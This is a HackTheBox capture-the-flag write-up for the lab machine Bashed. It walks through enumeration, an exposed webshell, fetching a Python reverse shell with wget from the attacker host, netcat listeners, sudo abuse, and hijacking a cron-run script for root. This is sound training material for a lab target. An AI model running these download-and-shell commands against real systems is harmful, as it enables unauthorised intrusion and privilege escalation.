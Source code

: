 ```yaml
---
layout: single
title:  "HTB - Bashed Writeup - 10.10.10.68"
date:   2020-06-02 14:45:23 +0100
categories: hackthebox
excerpt: This is my writeup of the hackthebox.eu machine Bashed
---
```

![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/6p348hw5z1adbqvs7fmt.png)

# HackTheBox - Bashed - 10.10.10.68 - Writeup

This machine is rated easy dificulty and requires knowledge of the linux `sudo and sudo -l` commands. The initial phase only requires some simple enumeration of an apache webpage which turns out to be running a webshell.

## 1. Recon

`nmap -sC -sV -oA nmap/bashed 10.10.10.68`
![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/bglot9fhkhbng2gwmt2b.png)
We can see that the only open port on the machine is Apache httpd

`http://10.10.10.68`
![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/cwowso1apsbjlsu6y0bd.png)
There is an article on the page stating that some sort of php file called `phpbash` was developed on the machine, we can try running `gobuster` to enumerate possible directories

`gobuster dir -u http://10.10.10.68 -w /usr/../.../..2.3-medium.txt`
![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/d56inr2lbco7247h8d5a.png)
We see that we got a hit for a `\dev` directory and seeing as the `phpbash` was developed on the machine there is a good chance it is in that directory

### Bingo! A webshell
![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/8i2z7ksj1zs8rqydc59m.png)
![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/iehnalebqmeagthoqbxn.png)


## 2. Exploitation
To exploit this machine is would be nicer to have an actual shell so I created a simple python reverse shell and started a netcat listener aswell as a python http server to get the file to the remote machine.
`cat rev.py`
![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/6y9pxw5ho3n1zzyo7mx3.png)
`which python`
![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/kxz7bosp99181t00u1xx.png)
`nc -lvnp 9004`
![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/pqrt3vzyqdd6q16cmyc6.png)
`wget 10.10.14.17/rev.py`
![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/stnh19xuhvs01sbzlszu.png)

### Reverse Shell
![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/anz2m6esuqczb1yjjqsj.png)

Now that we have a proper shell we can do some enumeration and also read the user flag
![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/wxcuu329pkw32deohsvs.png)
We can also see that there is a user `scriptmanager` who we could escalate privelages to
`sudo -l` - will tell use what commands we can run as other users
![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/h56pqcy4uycdk90hgh73.png)
As we can run every command -  `All` as `scriptmanger` with no password, we can just spawn a shell as them using the bash command

`sudo -u scriptmanager /bin/bash` - will get us a shell as scriptmanger
![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/v8dtetz5zu061uieplyt.png)

## 3. Privelage Escalation from scriptmanger to root

After some manual enumeration of the system there appears to be an unusual directory, `/scripts` which contains `test.py` and `test.txt`
![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/rpcza4tghrvseioryd14.png)
This python script seems to be run by some process, probably a cron job, we could try to exploit this by uploading a malicious python reverse shell to get a shell as root.
`cp rev.py revroot.py` `cat revroot.py`
![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/a7uymwadgmb0sdo96rlj.png)
Notice how our `revroot.py` file has a different port then out inital `rev.py` shell, this is so it does not interfere with our existing reverse shell.

We will upload `revroot.py` to the box using the same python http server
![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/2y4ixykp1b5vsc2330qf.png)
`wget 10.10.14.17\revroot.py`
![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/gxu3hs1na6sbboxgys2t.png)

Now all we have to do is open a new netcat listener on port 1337 and wait
`nc -lvnp 1337`
![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/bgasnnw8iksrgizmkb1x.png)

## Rooted! 

If you enjoyed my writeup or found it useful consider checking out my github or my hackthebox profile.

<img src="http://www.hackthebox.eu/badge/image/210952" alt="Hack The Box">
<a href="https://dev.to/71xn">
  <img src="https://d2fltix0v2e0sb.cloudfront.net/dev-badge.svg" alt="Finn Lestrange's DEV Profile" height="30" width="30">
</a>

